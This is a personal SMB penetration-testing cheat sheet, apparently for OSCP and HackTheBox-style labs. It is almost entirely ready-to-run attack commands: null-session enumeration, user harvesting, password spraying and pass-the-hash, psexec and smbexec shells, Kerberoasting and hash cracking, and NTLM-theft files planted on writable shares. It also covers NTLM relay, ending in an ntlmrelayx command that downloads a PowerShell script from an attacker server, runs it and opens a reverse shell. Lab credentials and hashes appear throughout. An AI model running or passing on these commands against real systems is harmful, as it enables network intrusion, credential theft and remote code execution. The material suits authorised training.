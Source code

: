 ```
nxc smb ip -u '' -p ''
```
- also try with 'guest' user
null session/list shares
```
smbclient -L \\192.168.1.1 -N
```

anonymous session/ list shares
```
smbclient -L \\10.129.235.244
```

null session/specific share
```
smbclient \\\\192.168.1.1\\ADMIN$ -N
```

no creds, need users
```
lookupsid.py vulnnet-rst.local/guest@10.10.111.177
```
output just user list:
```
lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

if found creds:
```
smbclient.py oscp.exam/web_svc:Diamond1@10.10.159.146
```
- if can't download file or something, try this:
```
smbclient //10.129.139.85/HR -U ''
```
- password prompt after command is run
if user has access to ADMIN$ share, psexec.py will work
```
psexec.py oscp.exam/fmcsorley:CrabSharkJellyfish192@10.10.138.152
```

spray (hash):
```
nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'
```

if pwned, execute commands:
```
nxc smb 10.10.126.146 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5' -x 'type C:\Users\Administrator\Desktop\proof.txt'
```

shell:
```
smbexec.py MS02/administrator:hghgib6vHT3bVWf@10.10.138.154
```
```
psexec.py oscp.exam/administrator@10.10.138.152 -hashes '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5
```

Gained initial access, but want hashes to service accounts:
```
GetUserSPNs.py -dc-ip 10.10.159.146 -request -outputfile hashes oscp.exam/web_svc:"Diamond1"
```
crack hashes
```
hashcat -m 13100 <hashes-file> /path/to/wordlist
```
pass the hash:
```
nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'
```

list all files in smb
```
nxc smb 10.10.148.132 -u 'guest' -p '' -M spider_plus && cat /tmp/nxc_hosted/nxc_spider_plus/10.10.148.132.json
```

list all shares and top level folders
```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.78.4 -r
```

list shares and specific folder contents
```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.78.4 -r Users/SVC_TGS/Desktop
```

if *write* access to any empty share, worth trying to upload malicious files:
- can tell if shares have write access from `nxc smb 10.129.228.120 -u svc_apache -p 'S@Ss!K@*t13' --shares`
```
python ntlm_theft.py --generate all --server <kali ip> --filename dank
```
- create malicious files
`sudo responder -I tun0`
- start responder
`smbclient //flight.htb/shared -N`
- connect to empty share (null session in example above)
- `prompt false`
	- prevents being asked to upload files (neccesary)
- `mput *`
	- uploads all files in current directory
	- run from 'dank' directory created with `ntlm_theft.py`
wait for responder to receive ntlm2 hash and crack with hashcat:
```
hashcat -m 5600 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/rockyou.txt
```

if run into STATUS_PASSWORD_MUST_BE_CHANGED with nxc, use command:
```
smbpasswd -U BABY/caroline.robinson -r 10.10.91.158
```
- to change password

write access to smb share, try uploading:
```
sudo python3 /opt/hashgrab.py 10.13.64.37 test
```
- IP is tun0 on my kali
- start smb server `smbserver.py smb share/ -smb2support`
- via smbclient.py `smbclient.py narasec/guest:''@192.168.195.30` upload file via `put test.lnk` to `/Documents` or something similar
- should see hash in smb server


***NTLM Relay over SMB***
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30